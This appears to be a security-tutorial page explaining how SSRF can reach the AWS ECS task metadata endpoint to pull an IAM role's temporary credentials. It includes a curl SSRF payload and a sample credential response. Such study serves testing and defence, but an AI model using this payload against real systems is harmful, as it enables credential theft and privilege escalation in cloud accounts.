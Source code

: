 ```yaml
---
title: 'ECS Task Metadata: Exploiting AWS with SSRF'
description: Learn how to exploit AWS ECS Task Metadata endpoints using SSRF for credential
  extraction and privilege escalation.
keywords:
- ECS Task Metadata
- AWS
- SSRF
- IAM Role
- Credential Extraction
- Privilege Escalation
- Metadata Endpoint
- Container Security
- AWS Security
---
```


# ECS Task Metadata

## Context

This article demonstrates how to exploit AWS ECS Task Metadata endpoints via Server-Side Request Forgery (SSRF) to extract container credentials for lateral movement or privilege escalation. This technique assumes that you have knowledge of cloud metadata services, ECS Task Metadata Service, IAM roles, and a fundamental understanding of SSRF.

## Theory

### ECS Task Metadata Endpoint Architecture

The ECS Task Metadata endpoint is a local HTTP service exposed to containers, providing runtime metadata and credentials. Typically, each ECS task is assigned a unique metadata endpoint located at `http://169.254.170.2`. Containers query this endpoint to obtain both task metadata and IAM role credentials, which are essential for executing operations within AWS using specified permissions.

### IAM Role Credential Exposure via Metadata

An attacker can exploit SSRF vulnerabilities in a web application within a container to access the metadata endpoint. By triggering SSRF requests to the credentials endpoint, attackers retrieve temporary AWS credentials linked to the ECS task's IAM role. AWS assumes that only the container hosting the service can access its assigned metadata endpoint, making this a critical trust assumption that can be exploited.

### ECS Metadata Endpoint Versions and Paths

ECS metadata endpoints exist in several versions, such as v2, v3, and v4, each offering varying paths and data granularity. A standard pattern for credential endpoints is `http://169.254.170.2/v2/credentials/<UUID>`. For a successful attack, SSRF payloads must target the appropriate version and the correct UUID path to extract the desired credentials.

## Practice

### SSRF to ECS Task Metadata Endpoint for Credential Extraction

1. **Identify SSRF injection point in the target containerized web application.**  
   Locate a parameter or header within the application that can trigger server-side HTTP requests.

2. **Craft SSRF payload to target the ECS metadata endpoint.**  
   Use the pattern `http://169.254.170.2/v2/credentials/<UUID>`. Replace `<UUID>` with the actual UUID if discoverable, or brute-force common patterns to find it.

3. **Execute the SSRF attack.**  
   Use tools like `curl` to send a request that triggers the SSRF vulnerability. For example:
   
   ```bash
   curl -s 'http://vulnerable-app.local/resource?url=http://169.254.170.2/v2/credentials/<UUID>'
   ```

4. **Retrieve AWS credentials.**  
   A successful response should resemble:
   
   ```json
   {
       "AccessKeyId": "ASIA...",
       "SecretAccessKey": "...",
       "Token": "...",
       "Expiration": "..."
   }
   ```

   These are temporary AWS credentials for the task's IAM role, potentially allowing further cloud actions.

## Tools

- **curl**
- **Burp Suite**
- **ffuf** 

This approach allows attackers with access to an SSRF vulnerability in AWS ECS environments to escalate privileges by obtaining credentials associated with the container's IAM role, leading to potential lateral movements or privilege escalation within AWS.